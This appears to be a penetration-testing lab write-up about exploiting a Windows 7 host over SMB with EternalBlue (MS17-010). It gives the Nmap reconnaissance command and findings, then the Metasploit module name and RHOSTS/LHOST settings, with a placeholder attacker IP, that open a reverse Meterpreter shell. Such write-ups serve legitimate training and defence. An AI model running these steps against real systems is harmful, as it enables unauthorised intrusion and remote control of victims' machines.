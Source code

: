 ## Windows 7 Target — SMB Exploitation via EternalBlue

**Target IP:** `192.168.88.130`  
**Objective:** Identify vulnerabilities and gain access through remote exploitation.

---

### 🛍️ Initial Reconnaissance

To begin, I conducted an aggressive Nmap scan across all 65,535 TCP ports using service detection, OS fingerprinting, and version enumeration:

```bash
nmap -T4 -p- -A 192.168.88.130
```

**Key Findings:**

- Host OS: *Windows 7 Ultimate SP1 (7601)*
- Open ports:
  - `135/tcp` - Microsoft Windows RPC
  - `139/tcp` - NetBIOS Session Service
  - `445/tcp` - Microsoft-DS (SMB)
  - `49152-49156/tcp` - Additional MSRPC endpoints
- SMB security misconfigurations:
  - Guest access allowed
  - Message signing: **disabled**

The machine appeared to be a VMware virtual host running Windows 7 — a red flag in itself, considering the known vulnerabilities in legacy SMB implementations.

---

### 🔎 Vulnerability Research

With port `445` open and SMB exposed, I investigated known vulnerabilities in Windows 7 SMB services. A quick search confirmed that the infamous **EternalBlue (MS17-010)** exploit was still relevant. The specific exploit module I referenced:  
🔗 [Exploit-DB #42315](https://www.exploit-db.com/exploits/42315)

---

### 🎯 Exploitation with Metasploit

I launched Metasploit and searched for EternalBlue-related modules. Upon finding a matching exploit, I proceeded with the following steps:

1. **Selected the module**:  
   `exploit/windows/smb/ms17_010_eternalblue`

2. **Configured target settings**:
   ```bash
   set RHOSTS 192.168.88.130
   set LHOST <attacker IP>
   ```

3. **Verified vulnerability** using the auxiliary scanner and the module’s internal check:
   - Target confirmed to be vulnerable.

4. **Finalized options** and launched the exploit:
   ```bash
   exploit
   ```

5. **Result**: Successful compromise — a Meterpreter session was established, granting remote shell access.

---

### 💡 Takeaways

This engagement served as a practical demonstration of how unpatched systems — particularly those running outdated operating systems — remain dangerously exposed to well-documented exploits like EternalBlue. Even years later, these vulnerabilities continue to be low-hanging fruit in real-world pentesting scenarios.
